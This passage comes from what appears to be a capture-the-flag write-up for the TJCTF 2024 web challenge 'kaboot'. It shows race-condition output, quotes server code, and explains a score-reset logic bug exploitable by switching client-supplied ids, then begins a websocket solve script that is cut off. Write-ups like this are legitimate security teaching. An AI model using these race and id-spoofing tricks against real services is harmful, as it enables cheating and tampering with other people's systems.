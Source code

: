 ```shell
┌[siunam♥Mercury]-(~/ctf/TJCTF-2024/web/kaboot)-[2024.05.20|14:14:32(HKT)]
└> python3 ws_race_window.py
[-] We're sending too fast!
[+] New score: 999.999988079071
[-] We're sending too fast!
[-] We're sending too fast!
[-] We're sending too fast!
[+] New score: 1000.000011920929
[-] We're sending too fast!
[+] New score: 1000.0
[-] We're sending too fast!
[-] We're sending too fast!
```

In our local environment, the race window would be tiny, but not in the challenge's remote instance.

Hmm... What else we can also abuse... The **score reset**?

```python
    [...]
    for i, q in enumerate(kahoot['questions']):
        [...]
        if i == 0:
            edit_score(scores, room_id, data['id'], 0)
        [...]
```

As you can see, the score reset only happens during **the first question**!

If we look closely at the `edit_score()` function call, we can see that **the client's provided `id`** is parsed into that function.

Ah ha! What if we **first reset a dummy ID's score**, and **then continue with another ID**?

## Exploitation

### Reset Score Logic Bug

Armed with above information, we can abuse the reset score logic bug to gain more than `9999` score!

{% raw %}
**To do so, I'll write a Python solve script:**
```python
import websockets
import asyncio
import json
import base64
import time
import re

async def exploit(url):
    QUESTION_LENGTH = 10
    LOCAL_FLAG_FORMAT = r'(flag\{[ -z|~]+\})'
    FLAG_FORMAT = r'(tjctf\{[ -z|~]+\})'
    try:
        async with websockets.connect(url) as websocket:
            message = await websocket.recv() # room's title name message

            for i in range(QUESTION_LENGTH):
                message = await websocket.recv() # question and answer information message
                question = json.loads(base64.b64decode(message).decode())
                answer = question['answer']

                id = '1' if i == 0 else '2'
```